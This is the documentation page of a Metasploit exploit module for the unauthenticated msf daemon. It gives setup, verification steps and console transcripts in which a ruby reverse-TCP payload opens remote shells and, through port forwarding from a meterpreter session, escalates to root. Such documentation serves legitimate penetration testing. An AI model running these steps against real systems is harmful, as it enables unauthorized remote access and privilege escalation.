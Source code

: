 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can target remote systems if the daemon is
exposed on a remote interface or it can be used for privilege escalation when
the attacker has a foothold. If used as privilege escalation, port forwarding
must be set up.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.

To start the vulnerable service, run:

```
$ msfd -f -q -a 0.0.0.0
```


This module has been tested successfully on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04
* Metasploit 4.16.51 on Windows 7

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version)

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/multi/misc/msfd_rce_remote`
3. Do: `set RHOST [IP]`
4. Do: `set RPORT [PORT]` (default: `55554`)
7. Do: `set PAYLOAD [PAYLOAD]`
8. Do: `exploit`
9. You should get a shell


## Options

  **RHOST**

  Remote Host

  **RPORT**

  Remote port


## Scenarios

### Remote target

  ```
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 192.168.56.101
  rhost => 192.168.56.101
  msf5 exploit(multi/misc/msfd_rce_remote) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/misc/msfd_rce_remote) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/misc/msfd_rce_remote) > set lport 443
  lport => 443
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 1 opened (172.17.0.2:443 -> 192.168.0.17:48152) at 2018-04-22 18:43:41 +0000

  whoami
  robin
  ```


### Local target - privilege escalation

  ```
  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > shell
  Process 17366 created.
  Channel 1 created.
  netstat -lntup|grep 55554
  (Not all processes could be identified, non-owned process info
   will not be shown, you would have to be root to see it all.)
  tcp        0      0 127.0.0.1:55554         0.0.0.0:*      LISTEN -
  ps aux | grep msfd
  root     17303  3.3 13.8 535168 283492 pts/18  Sl+  20:47   0:08 ruby ./msfd -f -q
  ^C
  Terminate channel 1? [y/N]  y
  meterpreter > portfwd add -l 55554 -p 55554 -r 127.0.0.1
  [*] Local TCP relay created: :55554 <-> 127.0.0.1:55554
  meterpreter > background
  [*] Backgrounding session 2...
  msf5 > use exploit/multi/misc/msfd_rce_remote
  msf5 exploit(multi/misc/msfd_rce_remote) > set rhost 127.0.0.1
  rhost => 127.0.0.1
  msf5 exploit(multi/misc/msfd_rce_remote) > exploit

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  [*] Command shell session 3 opened (172.17.0.2:443 -> 192.168.0.17:48300) at 2018-04-22 18:55:19 +0000

  id
  uid=0(root) gid=0(root) groups=0(root)
  ```

